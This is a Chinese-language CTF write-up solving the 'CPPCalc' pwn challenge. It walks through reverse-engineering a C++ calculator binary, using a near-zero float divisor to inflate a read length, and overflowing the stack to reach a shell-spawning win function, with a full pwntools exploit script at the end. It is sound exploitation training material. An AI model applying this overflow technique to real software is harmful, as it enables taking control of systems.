 ```yaml
---
title: C++
date: '2025-02-20 17:06:52'
updated: '2025-04-07 21:39:55'
---
```

# CPPCalc
是 C++程序，还没做过 C++的题目...C++也还没怎么看...尽力看看能不能做出来吧...

IDA 看了一下 strings 发现有 system 和 /bin/sh，函数表里面也有 system，应该是跟栈溢出有关系吧...

![](/images/6dd60c93b6ead61b84d4e1108db02d4d.png)

checksec 发现没有 canary 和 PIE

再一看发现有个 win 函数直接可以 getshell：

![](/images/5a2c34c82791ec359ddfd462aa32498e.png)

没学过 C++，不太懂，得仔细看看程序干了些什么

刚开始看见这个字节数组以 Calculator 类型指针传进 Calculator 函数初始化，估计 IDA 没办法识别出程序定义的 Calculator 类？

![](/images/0352a51e39140ceac9a0c22edf826382.png)

v3 一共 28 个字节，calculator 类型的对象里面有 7 个 DWORD 类型的数，对应索引 0-6

![](/images/3be8c3d37c879d29de86dc9ed8f11a62.png)

v3 被初始化为 0，

下面这个 setup 函数也是跟之前见到的不太一样：

![](/images/ae412a65fc897a8b4cf1794aac754cf0.png)

没有把标准输出设为无缓冲区，而是把 bss 段设为无缓冲区...（没看明白...）

接着看到 backdoor 函数：

```cpp
read(0, buf, *((int *)this + 6))
```

这里 read 函数读取的字节是从传入的 v3 的第七个 int 类型数据得到的，

又因为 backdoor 函数和后面的 floater、integer 函数是括在同一个 while 循环里面

所以可以利用后面的函数修改 v3 这个位置的值实现溢出

接着看 floater 函数：

![](/images/1faafb4c800ab2e63c00695692222614.png)

框起来的这个函数是检查 float 类型的数字是否包含小数部分，如果没有小数部分，或者小数部分位数很少（<=1），函数返回 1；否则返回 0。

再看看 integer 函数：

![](/images/5464c09a58927bf1458bef7631e5a85b.png)

floater 和 integer 这两个函数都要求两个输入在 0 到 10

但是可以看看 floater 里面能不能输入一个超级接近 0 的小数来当除数，这样被除数在 0 到 10 之间就可以除出来一个巨大的数放到`this + 6`里面给到 backdoor

接下来看看在哪里下断点

不看汇编不知道，一看吓一跳，原来涉及浮点运算的时候用到了 `xmm` 寄存器，之前还只是在资料里面看到说这个寄存器的残余值可以利用

汇编指令没几个认识的...

![](/images/04a1927d5d286eff351523a60a682a4e.png)

断在

```cpp
*((_DWORD *)this + 6) = (int)*((float *)this + 5);
```

看了看如果输入 10/0.000000001 这个时候传进去的值是 0x7fffffff，已经满足利用 read 函数溢出到返回地址了

exp：

```cpp
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'

link=process("./Calc")

win=0x401745 # 注意栈平衡

link.recvuntil(b'>')
link.sendline(b'1')
link.recvuntil(b'>')
link.sendline(b'10')
link.recvuntil(b'>')
link.sendline(b'0.000000001')
link.recvuntil(b'>')
link.sendline(b'1337')

# gdb.attach(link)
# pause()

payload=b'a'*0x408+p64(win)
link.sendline(payload)

link.interactive()
```



